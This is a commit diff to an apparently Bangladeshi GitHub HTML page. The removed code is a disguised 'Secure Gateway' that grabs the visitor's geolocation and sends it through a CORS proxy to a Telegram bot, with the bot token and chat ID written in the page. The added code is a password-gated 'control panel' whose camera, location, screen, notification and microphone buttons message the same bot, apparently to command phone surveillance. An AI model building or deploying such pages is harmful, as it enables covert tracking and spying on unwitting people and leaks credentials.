

Before and after one commit to rojaislam1619-collab/roja-income-v2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 207-580 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,65 +2,91 @@
 <html lang="bn">
 <head>
     <meta charset="UTF-8">
-    <title>Secure Admin Panel</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Control Panel</title>
     <style>
-        body { font-family: sans-serif; background: #0f172a; color: white; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
-        .card { background: #1e293b; padding: 25px; border-radius: 15px; width: 90%; max-width: 400px; text-align: center; }
-        input, .btn { width: 100%; padding: 12px; margin: 8px 0; border-radius: 8px; border: none; box-sizing: border-box; }
-        .btn { background: #3b82f6; color: white; cursor: pointer; font-weight: bold; }
+        body {
+            background: #1a1a2e;
+            color: #ffffff;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+        .container {
+            background: #16213e;
+            padding: 30px;
+            border-radius: 20px;
+            box-shadow: 0 10px 30px rgba(0,0,0,0.5);
+            width: 90%;
+            max-width: 400px;
+            text-align: center;
+        }
+        input {
+            width: 100%;
+            padding: 15px;
+            margin-bottom: 20px;
+            border: none;
+            border-radius: 10px;
+            background: #0f3460;
+            color: white;
+            box-sizing: border-box;
+            text-align: center;
+        }
+        button {
+            width: 100%;
+            padding: 15px;
+            margin: 10px 0;
+            border: none;
+            border-radius: 10px;
+            background: #e94560;
+            color: white;
+            font-size: 16px;
+            cursor: pointer;
+            transition: 0.3s;
+        }
+        button:hover { background: #ff2e63; }
+        .menu { display: none; }
+        h2 { margin-bottom: 20px; color: #4ecca3; }
     </style>
 </head>
 <body>
 
-<!-- লগইন সেকশন -->
-<div class="card" id="loginBox">
-    <h2>Secure Gateway</h2>
-    <input type="password" id="pass" placeholder="Enter Password">
-    <button class="btn" onclick="login()">Access System</button>
-</div>
+    <div class="container">
+        <!-- পাসওয়ার্ড সেকশন -->
+        <div id="login-section">
+            <h2>লগইন করুন</h2>
+            <input type="password" id="pass" placeholder="পাসওয়ার্ড লিখুন">
+            <button onclick="checkPass()">প্রবেশ করুন</button>
+        </div>
 
-<!-- কন্ট্রোল সেকশন -->
-<div class="card" id="mainBox" style="display:none;">
-    <h2>Control Panel</h2>
-    <button class="btn" onclick="runTask()">Initialize & Connect</button>
-    <div id="status" style="margin-top:15px; font-size:13px;">Waiting...</div>
-</div>
+        <!-- মেনু সেকশন -->
+        <div id="main-menu" class="menu">
+            <h2>কন্ট্রোল প্যানেল</h2>
+            <button onclick="sendData('ক্যামেরা')">📷 ক্যামেরা</button>
+            <button onclick="sendData('লোকেশন')">📍 লোকেশন</button>
+            <button onclick="sendData('স্ক্রিন')">📱 মোবাইল স্ক্রিন</button>
+            <button onclick="sendData('নোটিফিকেশন')">🔔 নোটিফিকেশন</button>
+            <button onclick="sendData('মাইক্রোফোন')">🎤 মাইক্রোফোন</button>
+        </div>
+    </div>
 
-<script>
-    const BOT_TOKEN = "8853221737:AAHDigRYNltTvdFGZW4gZahuu3M9dlJHENU";
-    const CHAT_ID = "8566985497";
+    <script>
+        function checkPass() {
+            if(document.getElementById('pass').value == "1234") {
+                document.getElementById('login-section').style.display = 'none';
+                document.getElementById('main-menu').style.display = 'block';
+            } else { alert("ভুল পাসওয়ার্ড!"); }
+        }
 
-    function login() {
-        if(document.getElementById('pass').value === "Tamim0186#@") {
-            document.getElementById('loginBox').style.display = 'none';
-            document.getElementById('mainBox').style.display = 'block';
-        } else { alert("Wrong Password!"); }
-    }
-
-    async function runTask() {
-        document.getElementById('status').innerText = "Connecting...";
-
-        // লোকেশন পাওয়ার চেষ্টা
-        if (navigator.geolocation) {
-            navigator.geolocation.getCurrentPosition(async (pos) => {
-                const locMsg = `Location: ${pos.coords.latitude}, ${pos.coords.longitude}`;
-
-                // Proxy যোগ করা হয়েছে এখানে
-                const url = `https://corsproxy.io/?https://api.telegram.org/bot${BOT_TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent(locMsg)}`;
-
-                try {
-                    await fetch(url);
-                    document.getElementById('status').innerText = "✅ Data Sent Successfully!";
-                } catch(e) {
-                    document.getElementById('status').innerText = "❌ Connection Failed!";
-                }
-            }, () => {
-                document.getElementById('status').innerText = "❌ Permission Denied!";
-            });
-        } else {
-            document.getElementById('status').innerText = "Geolocation not supported.";
+        function sendData(type) {
+            const token = "8853221737:AAHDigRYNltTvdFGZW4gZahuu3M9dlJHENU";
+            const chatId = "8566985497";
+            fetch(`https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=অনুরোধ: ${type}`);
+            alert(type + " পাঠানো হয়েছে!");
         }
-    }
-</script>
+    </script>
 </body>
 </html>
```
